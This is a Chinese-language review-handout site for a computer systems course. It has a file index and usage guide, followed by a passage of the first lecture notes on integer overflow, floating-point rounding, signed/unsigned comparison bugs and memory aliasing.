ICS 复习讲义
计算机系统导论（ICS，CS:APP 第 3 版）在线复习讲义：课程讲义、Lab 讲义与考试讲义。
支持侧栏切换、标题搜索、自测答案折叠与离线公式显示。先读讲义使用说明。
课程讲义
第 14 讲
代码移动、强度削减、公共子表达式；过程调用与内存别名；CPE、现代乱序处理器、延迟界限与吞吐量界限、循环展开与多个累积变量、SIMD、分支预测与条件传送；专题：在 Y86-64 PIPE 上从源程序、汇编到 HCL 优化一个函数
第 15 讲
编译驱动程序、ELF 目标文件、符号解析（强弱符号）、重定位（PC 相对与绝对引用的完整算例）、加载；静态库与命令行顺序；共享库、位置无关代码、GOT 与 PLT、dlopen；库打桩的三种方式
第 16 讲
异常与异常表、四类异常、系统调用（x86-64 调用约定与 strace 实测）、缺页；进程的两个抽象、并发、用户模式与内核模式、上下文切换；错误处理与包装函数、fork 与进程图（全部可行输出的枚举与实测）、僵死与回收、wait 与 waitpid、execve 与启动时的栈；专题：数 fork
第 17 讲
shell 与前台、后台作业；信号的待处理位与阻塞位、发送（进程组、kill、键盘）与接收（pnb、默认行为）；处理程序、嵌套与隐式阻塞、sigprocmask；安全的处理程序（G0–G5，均有实测）；信号不排队、addjob 与 deletejob 的竞争、sigsuspend；setjmp 与 longjmp；专题：带信号的程序的输出
第 18 讲
Unix I/O 与“一切皆文件”；open、read、write 与不足值（strace 实测）；stat 与元数据；描述符表、打开文件表、v-node 表；fork 与 dup2 后的共享；I/O 重定向；标准 I/O 的三种缓冲；RIO 包；三套 I/O 的选择；拓展：Shell Lab 中的 I/O 重定向
Lab 讲义
Lab 专题
Arch Lab：Y86-64 汇编与编码，从 gcc 的 x86-64 输出逐行翻译再化简；由 irmovq、OPq 推出 iopq，七个填空架构逐空分析（配流水线时间线，含模板笔误）；ncopy 从第 11 讲的办法到循环展开、余数阶梯，再用关键路径分析降低 ac（成功与失败的尝试均有实测）；Lab 测验单选例题与自测；第 0 部分：上手、测评与 Part/Phase 起步路线
Lab 专题
Attack Lab：Gets 漏洞与栈帧账本，hex2raw 与 gdb，Phase 1–6 的 Payload 推导，NX/ASLR/Canary 与 ROP，Lab 测验单选例题与自测；第 0 部分：上手、测评与 Part/Phase 起步路线
Lab 专题
Bomb Lab：炸弹结构与评分，objdump 与 gdb，方法工具箱（调用约定、循环、switch、递归、链表、二叉树），phase 1–6 与隐藏关逐关详解，常见变体、Lab 测验单选例题与自测；第 0 部分：上手、测评与 Part/Phase 起步路线
Lab 专题
Cache Lab：评分与工具，缓存模拟器（地址划分、LRU、读 trace、完整代码），转置的分析方法（组号、下界、用 trace 定位），32×32、64×64、60×68 的逐步改进，Lab 测验单选例题与自测；第 0 部分：上手、测评与 Part/Phase 起步路线；第 8 部分：60×68 的 1270 次与 1025 下界证明
Lab 专题
Data Lab：编码规则与 dlc 计数、方法工具箱、本学期 16 题逐题详解、历年题库拓展 16 题、Lab 测验单选例题与自测；第 0 部分：上手、测评与 Part/Phase 起步路线
Lab 专题
L0：做各个 Lab 都要用到的 Linux 命令行与工具——文件与目录（ls、cd、rm、mkdir）、权限与 chmod、grep 与重定向、ssh 密钥登录与 scp、tar、gcc 的常用选项与 make（默认目标、模式规则、.PHONY）、汇编与反汇编、objdump、nm、strings、ldd；所有命令在 Linux 容器中实测；Lab 测验单选例题与自测
考试讲义
第 9–17 讲
第 9–17 讲的考情分析（2025 年第 2 次测验结构、今年范围的判断）、必背公式与规则、分讲题型与例题、2025 年试卷逐题解析（三处官方答案与课件定义不一致之处）、往年期中期末代表题、陷阱清单与考前检查；第 17 讲暂据 2025 版课件
讲义使用说明
1 这套讲义是什么#
这是一套为北京大学《计算机系统导论》（ICS）自编的复习讲义，按课堂讲授的顺序，把每一讲课件的全部重要知识点整理成连贯的文字，并配上自绘的图、原生 Word 表格、完整的研讨题和作业题解答、复习速查与自测题。它的目标有两个：一是让没有课件在手的读者也能读懂每一个知识点，课件中的图、例子、数值和代码都在讲义里完整呈现，“课件 p.x”只作为出处标注；二是把课堂上一带而过的推导、前提和边界条件讲透，例如浮点舍入的每一位如何得到、某段汇编为什么这样分配寄存器、某个硬件信号为什么取这个值。
讲义不是课程的官方材料，也不能代替听课和读教材。它由一名选课学生在复习过程中与 AI 助手合作编写，所有数值结论都用程序实际运行核对过（见第 6 节），但仍可能有疏漏。遇到与老师课堂讲法、教材或助教答复不一致的地方，请以后者为准，也欢迎把发现的问题反馈给分享者。
2 课件版本：为什么你的页码可能对不上#
ICS 由多位老师分班讲授。编者所在班级使用的是周迪宇老师的课件：老师在每次上课前，会在课程统一发放的课件上做修改，包括增删页面、调整顺序、更换例子、改写个别结论。讲义的主线、例子顺序和“课件 p.x”页码都依据周老师修改后的版本（2026 年秋季学期）。因此，如果你用的是其他老师的课件，或者只有统一发放的原始版本，会遇到下面几种情况：页码对不上；讲义提到的某个例子在你的课件里没有，或你的课件里有讲义没讲的例子；个别页的说法不同。其中最常见的是页码整体错位。
好在讲义是按“脱离课件可读”的原则写的，页码对不上并不影响阅读。需要对照时，建议按小节标题和关键词（例如“取指阶段”“Min3”“guarded-do”）在自己的课件中搜索，而不是按页码翻找。讲义里如果出现你的课件没有的内容，可以当作补充材料；如果你的课件有讲义没有覆盖的内容，请以自己的课件和课堂为准补充复习，尤其是考试前。
说明：各讲讲义依据的课件版本
第 1–8 讲：依据 2026 年秋季学期周老师课件（第 1–2 讲为 .pptx，第 3–8 讲为 PDF）。
第 9、10 讲：最初在 2026 版课件发布前依据 2025 年秋季课件编写；2026 版发布后已逐页核对，正文页码改为 2026 版，并在各讲“如何使用本讲义”之后的紫色说明框中列出两版的差别和页码对照。
第 11 讲：依据 2026 年秋季学期课件（文件名沿用 2025 版日期，内容为 2026 版，68 页）编写，并与 2025 版逐页对照；研讨题题目中的页码换算见该讲第二部分开头。
第 12 讲：依据 2026 年秋季学期课件（ICS12-memory-hierarchy-20261026，70 页）编写；与 2025 版逐页比对，除首页的日期与教师名单外完全相同，页码两版通用。
第 13 讲：依据 2026 年秋季学期课件（ICS13-cache-memories-20251030，文件名沿用 2025 版日期，内容为 2026 版，67 页）编写；与 2025 版（65 页）相比新增 p.19、p.36 两页，研讨题沿用 2025 版页码，换算规则见该讲“如何使用本讲义”后的说明框。
第 14 讲：依据 2026 年秋季学期课件（ICS14-optimization-20261102，69 页）编写；与 2025 版逐页比对，除首页的日期与教师名单外完全相同，页码两版通用。
第 15 讲：依据 2026 年秋季学期课件（ICS15-linking-20261105，65 页）编写。2025 版课件多出两页“链接时打桩”的代码与运行结果，其余各页相同；讲义按 2025 版课件和教材把这部分补全，研讨题的页码与 2026 版一致。
第 16 讲：依据 2026 年秋季学期课件（ICS16-ECF1-20261109，62 页）编写；与 2025 版逐页比对，除封面日期外完全相同，页码两版通用。
第 17 讲：依据 2026 年秋季学期课件（ICS17-ECF2，文件名沿用 2025 版日期，74 页）编写；与 2025 版（72 页）相比新增 p.9“后台作业”和 p.64–65 事件驱动编程两页，讲义使用 2026 版页码。
第 18 讲：依据 2026 年秋季学期课件（ICS18-SysIO-20261119，60 页）编写，讲义使用 2026 版页码。
第 19 讲：依据 2026 年秋季学期课件（ICS19-VM1-20261123，48 页）编写，讲义使用 2026 版页码。
研讨题题目：小班研讨题 PDF 有时沿用上一年的课件页码（例如第 9、10 讲题目中的“第 46 页”），讲义在相应位置给出了换算。
页码以外的差别：讲义中橙色 ⚠ 方框指出的“课件笔误”针对的是上述版本；你的课件可能已经改正，也可能有别的笔误。
3 文件一览#
表 1 文件一览（均为 Word 文件：各讲讲义在“课程讲义”文件夹，Lab 讲义在“Lab讲义”，阶段测验相关的在“考试讲义”）
| 文件名 | 范围 | 内容 |
|---|---|---|
| ICS01-02-课程概览与位字节整数-复习讲义 | 第 1–2 讲 | 课程概览；位、字节与整数（编码、扩展截断、加法乘法、移位） |
| ICS03-浮点数-复习讲义 | 第 3 讲 | IEEE 754 编码、舍入、浮点运算的性质 |
| ICS04-机器级编程基础-复习讲义 | 第 4 讲 | x86-64 寄存器、寻址模式、mov/lea、算术逻辑指令 |
| ICS05-机器级编程控制-复习讲义 | 第 5 讲 | 条件码、条件跳转与条件传送、循环、switch |
| ICS06-机器级编程过程-复习讲义 | 第 6 讲 | 栈与栈帧、参数传递、寄存器保存约定、递归 |
| ICS07-机器级编程数据-复习讲义 | 第 7 讲 | 数组、多维数组、结构体与对齐、浮点指令 |
| ICS08-机器级编程高级主题-复习讲义 | 第 8 讲 | 联合、字节序、内存布局、缓冲区溢出的原理与防御 |
| ICS09-处理器体系结构ISA与逻辑设计-复习讲义 | 第 9 讲 | Y86-64 指令集与编码、组合逻辑、HCL、存储部件 |
| ICS10-处理器体系结构顺序实现SEQ-复习讲义 | 第 10 讲 | SEQ 的六个阶段、各阶段逻辑与 HCL、时序 |
| ICS11-处理器体系结构流水线PIPE-复习讲义 | 第 11 讲 | 流水线原理、PIPE 的结构、数据与控制冒险（转发、暂停、预测）、现代 CPU 对比 |
| ICS12-存储器层次结构-复习讲义 | 第 12 讲 | SRAM 与 DRAM、磁盘与 SSD 的结构和访问时间、局部性、存储器层次结构与三类缓存不命中 |
| ICS13-高速缓存存储器-复习讲义 | 第 13 讲 | 缓存的组织（S, E, B）与地址划分、直接映射与组相联、写策略、存储器山、矩阵乘法的循环次序与分块、算不命中率的方法 |
| ICS14-程序优化-复习讲义 | 第 14 讲 | 代码移动、强度削减、公共子表达式；过程调用与内存别名；CPE、现代乱序处理器、延迟界限与吞吐量界限、循环展开与多个累积变量、SIMD、分支预测与条件传送；专题：在 Y86-64 PIPE 上从源程序、汇编到 HCL 优化一个函数 |
| ICS15-链接-复习讲义 | 第 15 讲 | 编译驱动程序、ELF 目标文件、符号解析（强弱符号）、重定位（PC 相对与绝对引用的完整算例）、加载；静态库与命令行顺序；共享库、位置无关代码、GOT 与 PLT、dlopen；库打桩的三种方式 |
| ICS16-异常控制流异常与进程-复习讲义 | 第 16 讲 | 异常与异常表、四类异常、系统调用（x86-64 调用约定与 strace 实测）、缺页；进程的两个抽象、并发、用户模式与内核模式、上下文切换；错误处理与包装函数、fork 与进程图（全部可行输出的枚举与实测）、僵死与回收、wait 与 waitpid、execve 与启动时的栈；专题：数 fork |
| ICS17-异常控制流信号与非本地跳转-复习讲义 | 第 17 讲 | shell 与前台、后台作业；信号的待处理位与阻塞位、发送（进程组、kill、键盘）与接收（pnb、默认行为）；处理程序、嵌套与隐式阻塞、sigprocmask；安全的处理程序（G0–G5，均有实测）；信号不排队、addjob 与 deletejob 的竞争、sigsuspend；setjmp 与 longjmp；专题：带信号的程序的输出 |
| ICS18-系统级IO-复习讲义 | 第 18 讲 | Unix I/O 与“一切皆文件”；open、read、write 与不足值（strace 实测）；stat 与元数据；描述符表、打开文件表、v-node 表；fork 与 dup2 后的共享；I/O 重定向；标准 I/O 的三种缓冲；RIO 包；三套 I/O 的选择；拓展：Shell Lab 中的 I/O 重定向 |
| ICS19-虚拟内存概念-复习讲义 | 第 19 讲 | 虚拟寻址与地址空间；虚拟内存作为缓存（页、页表、页命中与缺页、按需调页、工作集与抖动）、内存管理与内存保护的工具；地址翻译；TLB（含覆盖范围实测）；多级页表；专题：手算地址翻译（教材小内存系统） |
| ICS-Lab-L0-Linux环境与工具-复习讲义 | Lab 专题 | L0：做各个 Lab 都要用到的 Linux 命令行与工具——文件与目录（ls、cd、rm、mkdir）、权限与 chmod、grep 与重定向、ssh 密钥登录与 scp、tar、gcc 的常用选项与 make（默认目标、模式规则、.PHONY）、汇编与反汇编、objdump、nm、strings、ldd；所有命令在 Linux 容器中实测；Lab 测验单选例题与自测 |
| ICS-Lab-DataLab-复习讲义 | Lab 专题 | Data Lab：编码规则与 dlc 计数、方法工具箱、本学期 16 题逐题详解、历年题库拓展 16 题、Lab 测验单选例题与自测；第 0 部分：上手、测评与 Part/Phase 起步路线 |
| ICS-Lab-BombLab-复习讲义 | Lab 专题 | Bomb Lab：炸弹结构与评分，objdump 与 gdb，方法工具箱（调用约定、循环、switch、递归、链表、二叉树），phase 1–6 与隐藏关逐关详解，常见变体、Lab 测验单选例题与自测；第 0 部分：上手、测评与 Part/Phase 起步路线 |
| ICS-Lab-ArchLab-复习讲义 | Lab 专题 | Arch Lab：Y86-64 汇编与编码，从 gcc 的 x86-64 输出逐行翻译再化简；由 irmovq、OPq 推出 iopq，七个填空架构逐空分析（配流水线时间线，含模板笔误）；ncopy 从第 11 讲的办法到循环展开、余数阶梯，再用关键路径分析降低 ac（成功与失败的尝试均有实测）；Lab 测验单选例题与自测；第 0 部分：上手、测评与 Part/Phase 起步路线 |
| ICS-Lab-AttackLab-复习讲义 | Lab 专题 | Attack Lab：Gets 漏洞与栈帧账本，hex2raw 与 gdb，Phase 1–6 的 Payload 推导，NX/ASLR/Canary 与 ROP，Lab 测验单选例题与自测；第 0 部分：上手、测评与 Part/Phase 起步路线 |
| ICS-Lab-CacheLab-复习讲义 | Lab 专题 | Cache Lab：评分与工具，缓存模拟器（地址划分、LRU、读 trace、完整代码），转置的分析方法（组号、下界、用 trace 定位），32×32、64×64、60×68 的逐步改进，Lab 测验单选例题与自测；第 0 部分：上手、测评与 Part/Phase 起步路线；第 8 部分：60×68 的 1270 次与 1025 下界证明 |
| ICS-Lab-ShellLab-复习讲义 | Lab 专题 | Shell Lab：tsh.c 已给部分的全部定义与辅助函数（逐块讲解并实测），eval 与处理程序要用的系统调用（用 strace 观察 tshref），按动手顺序写出完整的 tsh——内置命令、运行外部程序与重定向、信号处理程序、竞争与阻塞，每一步先给最先想到的写法、用 trace 或实验找出问题再改正（错误写法均实测），参考解答 sdriver 满分；检查返回值、风格与调试方法；Lab 测验单选例题与自测；第 0 部分：上手、测评与 trace 分组的起步路线 |
| ICS阶段测验冲刺复习讲义-第2-8讲 | 第 2–8 讲 | 第 1 次阶段测验的考点、题型、解题模板与陷阱 |
| ICS阶段测验冲刺复习讲义-第9-17讲 | 第 9–17 讲 | 第 9–17 讲的考情分析（2025 年第 2 次测验结构、今年范围的判断）、必背公式与规则、分讲题型与例题、2025 年试卷逐题解析（三处官方答案与课件定义不一致之处）、往年期中期末代表题、陷阱清单与考前检查；第 17 讲暂据 2025 版课件 |
| ICS2026第1次阶段测验-试题解析 | 第 2–8 讲 | 2026 年第 1 次阶段测验逐题解析 |
| ICS2026第2次阶段测验-试题解析 | 第 9–17 讲 | 2026 年第 2 次阶段测验逐题解析（官方答案均已用模拟器和实测核对）、易错点表与期末复习建议 |
| 实验工具（文件夹） | 第 9–14 讲 | 两个入口：网页版模拟器.html（离线单文件，包括 ISA/SEQ/PIPE 模拟、C/x86-64 → Y86-64 翻译、存储器实验与缓存可视化、HCL 实验、程序优化视图）；ICS 学习工作台-Mac.app（macOS 增强版，另有本机 C 编译与优化对照、本机实验和 CPE 测量）。用法见同目录 README。 |
4 每份讲义的结构#
第 1–19 讲的讲义结构相同，便于在不同讲之间对照查找。第 8 讲和第 17 讲没有研讨题和作业题，第二部分改为阶段测验中本讲题目的解析；第 1–2 讲为合编。
表 2 单讲讲义的组成
| 部分 | 内容与用法 |
|---|---|
| 封面与目录 | 封面列出对应课件、教材章节、配套练习和前置知识；目录可点击跳转（Mac 上按住 ⌘ 单击） |
| 如何使用本讲义 | 本讲的整体思路和内容地图（课件部分与讲义小节的对应表）；有版本差别时附紫色说明框 |
| 第一部分 知识点 | 按课堂顺序展开，含图、表、代码、具体例子和常见问题；小节标题后括注课件页码与教材图号 |
| 第二部分 研讨题解答 | 小班研讨题的完整解答，先给结论，再讲推导，必要时附程序运行结果 |
| 第三部分 作业题解答 | 教材家庭作业题的参考解答与验证过程 |
| 复习速查 | 一页纸总结、易错点清单、中英术语对照，适合考前快速过一遍 |
| 自测题 | 新编题目，答案放在最后，先做后看 |
5 方框与配色#
讲义用不同颜色的方框区分内容的性质。阅读时间紧张时，可以先只看蓝色要点框和橙色易错框，再回到正文补细节。
表 3 方框类型
| 方框 | 含义 |
|---|---|
| 蓝色 ★ 要点 | 本节必须记住的规则、公式或结论 |
| 橙色 ⚠ 易错 | 容易混淆的概念、常见错误，以及课件或教材中的笔误（附正确写法） |
| 绿色 示例 | 具体例子：用一组实际数据把规则完整走一遍 |
| 灰色 教材补充 | 课堂上没有展开、但教材中有的推导或边界条件 |
| 紫色 常见问题／说明 | 学习中常被问到的问题及解答；版本差别与页码说明 |
| 题目框与答案框 | 研讨题、作业题和自测题的题干与参考答案 |
图中的颜色也有固定含义。栈帧和内存图一律“高地址在上、低地址在下”，栈向下增长：黄色为返回地址，紫色为被保存的寄存器，蓝色为局部变量，橙色为通过栈传递的参数，灰色为未使用、填充或对齐的空间。第 9 讲起的指令编码图中，黄色为 icode:ifun 字节，粉色为寄存器指示符字节，蓝色为 8 字节常数。
6 内容是怎样核对的#
讲义中的数值结论，包括整数转换、位模式、浮点编码与舍入、程序输出、结构体偏移和大小、指令编码、地址计算等，都用程序实际运行核对过。标注“gcc 13 实测”的汇编，是在 x86-64 Linux 上用 gcc 13 编译得到的，常用选项为 -Og -fno-stack-protector -fno-pie 等；你用其他版本的编译器、其他优化级别，或在 macOS（Apple 芯片为 arm64）上编译，得到的汇编可能不同，这是正常的，不代表讲义或你的结果有错。Y86-64 程序用自写的汇编器和模拟器运行，SEQ 的逐周期信号由按教材 HCL 实现的模拟器生成，并与指令集模拟器在随机程序上比对过。第 13、14 讲的计时结果（存储器山、矩阵乘法、CPE 等）来自一台 Intel Xeon 云服务器，你的电脑上具体数值会不同，但规律一致；第 14 讲的 CPE 以处理器时钟周期为单位，测法见该讲 14.9 节。
第 8 讲涉及缓冲区溢出，讲义只讲课件层面的原理和防御方法（栈保护、地址随机化、不可执行栈等），目的是帮助理解课程内容、写出安全的程序，不包含可直接使用的攻击步骤。
7 学习建议#
课后尽早读讲义。 课堂节奏很快，一讲的课件常常要在两节课内讲完，后面的课也很少回头复习。讲义按课件的顺序写成连贯的文字，把课堂上来不及展开的推导、例子和图都补全了，可以当作这一讲的主要读物：上完课尽早把对应的一讲从头读一遍，推导和例子跟着自己写一写。时间允许的话，课前花十几分钟浏览这一讲的小节标题和图，上课时更容易跟上老师讲到了哪里。课堂上老师强调的重点和补充的例子，仍要以自己的笔记为准。
难点留出整块时间。 流水线、缓存、程序优化等几讲概念多、环环相扣，读一遍没读懂很正常。建议留出整块时间，遇到卡住的地方，对照讲义中的时间线、示意图一步一步推，再回到课件印证。前面的内容后面会反复用到（机器级编程之于 Bomb Lab 和 Attack Lab，流水线之于 Arch Lab，存储器层次之于 Cache Lab），学到后面发现前面有漏洞时，回头把那一讲的对应小节补上。
研讨题和作业题先自己做。 讲义给出了完整解答，直接看答案会觉得“都懂”，考试时却写不出来。建议先独立完成，提交后再用讲义核对思路和细节。作业须独立完成，不要把讲义中的解答直接抄写提交。
做 Lab 之前先读 Lab 讲义。 Lab 常常要用到课上没有讲过的东西，例如命令行参数的解析、错误处理、新的工具和描述语言。Lab 讲义先讲规则、工具和这些背景知识，再按思路一步步讲解法，走不通的尝试也一并写出。建议先读规则和背景部分，自己动手；卡住时再读对应的解法小节，读懂之后自己实现。Lab 须独立完成，不要照抄讲义中的代码。
动手跑一跑。 这门课的很多结论都可以自己验证：用 gcc -Og -S 看 C 代码翻译成什么汇编，用 objdump -d 看机器码，用 gdb 单步观察寄存器和栈，用一小段 C 程序打印浮点数的位模式。讲义中的例子基本都附了完整代码，可以照着改参数再跑，比反复阅读印象深得多。CS:APP 每章正文中的练习题（Practice Problem）在章末附有答案，是检验理解的最好材料。第 9–14 讲的实验工具在“实验工具”文件夹中，有两个入口。“网页版模拟器.html”用浏览器直接打开，离线可用，可以逐周期查看 SEQ/PIPE 流水线、把 C 或 x86-64 翻译成 Y86-64、观察缓存、编辑 HCL，以及对照程序优化的模型与编译器汇编，支持 iaddq。“ICS 学习工作台-Mac.app”是 macOS（Apple 芯片）上的增强版，另外可以调用本机的 Clang/GCC 真实编译、运行本机实验并测量 CPE。作业请以课程官方工具为准。两个入口的用法见“实验工具/README.md”。
平时回顾，考前用速查和自测。 每讲末尾的“一页纸”“易错点清单”既适合考前快速回顾，也适合平时每周花一点时间把前几讲过一遍，免得前面的内容越积越生；自测题适合限时练习。学校从 2025 年起分阶段测验，第 1 次阶段测验覆盖第 2–8 讲，以填空为主、按讲次分组，汇编相关的题目分值最高，2026 年还出现了不定项选择题；据助教说明，题目主要来自课后习题和研讨题。《冲刺复习讲义》据历年真题归纳了考点和题型，可以配合使用。
遇到问题多问。 讲义里的“常见问题”方框收录的大多是学习中真实遇到的疑问；讲义没有覆盖的疑问，最可靠的途径仍然是问老师和助教。讲义中看不懂或疑似有误的地方，欢迎通过第 9 节的问卷反馈。
8 其他说明#
讲义会随课程进度更新（下一讲为第 20 讲），文件名不变；拿到新版本时直接替换即可。
讲义用 Word 格式，便于自己批注和修改。修改后如果页码变化，可在目录上右键 → 更新域 → 只更新页码。
用 WPS、Pages 或在线预览打开时，代码框的对齐和个别公式的显示可能有偏差；建议用 Microsoft Word 或导出 PDF 阅读。
讲义仅供学习交流，请勿用于商业用途。
9 勘误与反馈#
讲义难免有错误和讲得不清楚的地方。发现结论、代码或数字有误，某处看不懂，图表看不清，或者希望补充什么内容，欢迎通过下面的问卷反馈：
https://v.wjx.cn/vm/YJhvn3d.aspx
问卷匿名，可以多次填写；填写时请注明讲义名称和具体位置（节号、页码或图表编号），便于核对。确认的勘误会在讲义的下一个版本中改正。
计算机系统导论（ICS）
复习讲义 · 第 1–2 讲合编
课程概览（Overview） ｜ 位、字节与整数（Bits, Bytes, and Integers）
如何使用本讲义#
讲义以课堂课件的顺序为主线，结合英文原版教材补足课堂上一带而过的推导和边界条件。每一节先用连贯的文字讲清“为什么”，再用表格、色块和公式框把“是什么”归纳出来，方便考前快速回看。不同颜色的框含义固定，复习时可以按颜色检索：
| 框的颜色 | 含义 | 复习时怎么用 |
|---|---|---|
| ★ 蓝色 | 关键结论、核心公式 | 必须能默写、能用 |
| ⚠ 橙色 | 易错点、反直觉的陷阱 | 考试和 Lab 中最常失分的地方 |
| 例 绿色 | 完整演算的例子 | 先自己算一遍再对答案 |
| 教材 灰色 | 教材中课堂未展开的内容 | 理解即可，拓展视野 |
| 常见问题 紫色 | 学习中常见的疑问与解答 | 澄清容易混淆的概念 |
位模式图中的色块同样有固定含义：
■ 补码符号位（负权重） ■ 正权重位 ■ 符号扩展复制出的位 ■ 新补的 0 ■ 被丢弃的位
第一部分 第 1 讲：课程概览#
1.1 这门课到底在学什么#
“计算机系统导论”关注的核心问题是抽象与现实之间的差距。在程序设计课上，我们习惯把 int 当作数学里的整数、把内存当作可以随意访问的大数组、把算法复杂度当作程序快慢的唯一标准；这些抽象让我们能够快速写出程序，但它们都是建立在真实硬件之上的近似。一旦程序出现诡异的 bug、性能不达预期，或者需要和硬件、操作系统、网络打交道，只懂抽象就不够了，必须知道抽象在机器上是如何实现的，以及实现在什么地方与抽象不一致。
因此本课程采用程序员视角（programmer’s perspective）：不是去设计硬件，而是站在写程序的人的位置，自顶向下地看计算机如何执行程序、存储信息和进行通信。课件给出的课程目标有三条，可以概括为“建框架、练能力、打基础”。
表 1 课程目标（课件 p.16）
| 课程目标 | 具体含义 |
|---|---|
| 建立整体知识框架 | 为初入计算机专业的学生建立计算机系统的整体知识框架，把数据表示、机器代码、处理器、存储、操作系统、网络串起来 |
| 养成良好编程习惯 | 写出性能更好、可移植性更强、更健壮的程序；能借助底层知识定位 bug |
| 为后续课程奠基 | 编译原理、操作系统、计算机网络、计算机体系结构等专业课都以本课为前置 |
课程主体内容与教材章节、实验（Lab）的对应关系如下表。上半学期覆盖教材第一部分（第 2–6 章），下半学期覆盖第二、三部分（第 7–12 章）。
表 2 课程主体内容（课件 p.37–44）
| 模块 | 主要知识点 | 教材章节 | 对应 Lab |
|---|---|---|---|
| 一、程序与数据 | 位运算、整数/浮点算术、汇编语言、C 控制与数据结构的机器表示 | 第 2、3 章 | L1 Datalab、L2 Bomblab、L3 Attacklab |
| 二、处理器体系结构与程序性能 | 指令集体系结构（ISA）、顺序与流水线处理器、性能测量与优化 | 第 4、5 章 | L4 Archlab |
| 三、存储器层次结构 | 存储技术、存储层次、高速缓存、磁盘、局部性 | 第 6 章 | L5 Cachelab |
| 四、异常控制流 | 硬件异常、进程与进程控制、Unix 信号、非本地跳转 | 第 8 章 | L6 Tshlab |
| 五、虚拟内存 | 虚拟内存、地址翻译、动态内存分配 | 第 9 章 | L7 Malloclab |
| 六、网络与并发 | 系统级 I/O、网络编程、Web 服务、并发、线程、I/O 多路复用 | 第 10–12 章 | L8 Proxylab |
1.2 五个现实问题（Great Realities）#
课件用五个“有趣的现实问题”说明为什么只懂抽象不够。这五个问题几乎就是整门课的目录：问题 1 对应第 2 讲、第 3 讲（整数与浮点），问题 2 对应机器级编程（第 4–8 讲），问题 3、4 对应存储层次与性能优化，问题 5 对应 I/O、网络与并发。
问题 1：整型不是整数，浮点型不是实数#
数学里的整数有无穷多个，而 C 语言的 int 只有 32 位，只能表示 个不同的值；实数是连续的，而 float/double 只能表示有限多个离散的点。有限的表示必然导致两种后果：溢出（结果超出表示范围）和舍入（结果落在两个可表示的数之间）。
例 1.1 永远成立吗？
若 是浮点数，成立（浮点乘法不会因溢出而“翻转符号”，最多得到 ）。若 是 int：40000 * 40000 得到 1600000000，正确；但 50000 * 50000 的真实结果 2500000000 超过了 int 的最大值 ，机器只保留低 32 位，结果变成负数：
这正是第 2 讲“补码乘法 = 真实乘积截断到 位”的直接结果（见 2.7 节）。
例 1.2 加法满足结合律 吗？
若 是 int，满足——哪怕中间发生溢出，补码加法本质上是模 加法，模运算满足结合律。若是浮点数则不一定：
(1e20 + -1e20) + 3.14 -> 0 + 3.14 = 3.14
1e20 + (-1e20 + 3.14) -> 1e20 + (-1e20) = 0 /* -1e20+3.14 舍入后仍是 -1e20 */
原因是 double 只有约 15–16 位十进制有效数字， 中的 3.14 远小于 的最低有效位，舍入时被完全吞掉。
表 3 计算机算术与数学算术的对比（课件 p.18–20）
| 数学性质 | int（补码，模 ） | float / double |
|---|---|---|
| 交换律 | ✓ 成立 | ✓ 成立 |
| 结合律 | ✓ 成立（即使溢出） | ✗ 不成立（舍入） |
| 分配律 | ✓ 成立 | ✗ 不成立 |
| 单调性 | ✗ 不成立（溢出会翻转） | ✓ 成立（除无穷与 NaN 外） |
| ✗ 不成立（溢出） | ✓ 成立 |
整数运算满足交换律、结合律、分配律，在抽象代数里叫做“环”（模 的整数环）；浮点运算满足单调性却不满足结合律。记住“哪种类型满足哪些性质”，对编译器设计者和科学计算程序员尤其重要——编译器只能在性质成立时做变换，例如它可以把整数表达式 (a+b)+c 重排，却不能随意重排浮点表达式。
⚠ 浮点数不要直接用 == 比较
计算得到的浮点数往往带有舍入误差，a == b 可能因为最后一位不同而为假。课件推荐写成 fabs(a - b) <= epsilon（例如 epsilon = 1e-5）。更严谨的做法是使用相对误差：fabs(a - b) <= eps * fmax(fabs(a), fabs(b))，因为固定的绝对误差对很大或很小的数都不合适。浮点数的细节在第 3 讲展开。
问题 2：你需要了解汇编#
也许你永远不会用汇编写完整的程序，但读懂汇编能帮助你理解机器层面的执行模型。课件给了四个场景：查找底层 bug、程序性能调优、编写系统软件、分析恶意软件与安全漏洞。
例 2.1 有符号与无符号比较导致的 bug
int array[] = {1, 2, 3};
#define TOTAL sizeof(array) /* sizeof 的结果是无符号类型 size_t */
void main() {
int d = -1;
if (d <= TOTAL) printf("small\n");
else printf("large\n"); /* 实际输出 large！ */
}
sizeof 的结果类型是无符号的 size_t（x86-64 上是 64 位 unsigned long）。比较 d <= TOTAL 时，有符号的 d 被隐式转换为无符号数，-1 的位模式全为 1，解释为无符号数就是最大值 ，当然大于 12。从汇编看，d = -1 对应 movl $0xFFFFFFFF, ...，机器里存的只是全 1 的位模式，“是 -1 还是一个大正数”完全取决于后续指令怎样解释它。这个机制在第 2 讲 2.4 节详细讲解。
例 2.2 看似等价的代码，效率不同
void fun1(int *x, int *y) { *x += *y; *x += *y; } /* 6 次内存引用 */
void fun2(int *x, int *y) { *x += 2 * (*y); } /* 3 次内存引用 */
fun1 读 *x 两次、读 *y 两次、写 *x 两次；fun2 只读 *x、*y 各一次，写 *x 一次。那么编译器为什么不自动把 fun1 优化成 fun2？教材 5.1 节给出了答案：内存别名（memory aliasing）。如果调用时 x 和 y 指向同一个变量（fun1(&a, &a)），fun1 使 a 变成原来的 4 倍，fun2 却使 a 变成 3 倍，两者并不等价。编译器无法排除这种可能，只能保守地按 fun1 原样生成代码。
例 2.3 展示了系统软件中嵌入少量汇编的需求：用 rdtsc 指令读取处理器的周期计数器，这在纯 C 中无法表达。例 2.4 则说明安全分析的价值：gets(buf) 不检查输入长度，会造成缓冲区溢出，应改用带长度参数的 fgets(buf, BUFSIZE, stdin)；对没有源代码的程序，可以通过反汇编定位对 gets 这类不安全函数的调用。缓冲区溢出将在 Attack Lab（L3）中亲手实践。
问题 3：内存很重要#
内存不是无限的，也不是“随机访问且速度均匀”的理想数组。课件强调三点：内存需要被合理地分配与管理；内存引用错误特别危险，因为错误的后果在时间和空间上都可能远离出错位置；内存性能不均匀，高速缓存和虚拟内存会极大地影响程序性能。
typedef struct {
int a[2];
double d;
} struct_t;
double fun(int i) {
volatile struct_t s;
s.d = 3.14;
s.a[i] = 1073741824; /* 可能越界！1073741824 = 0x40000000 */
return s.d;
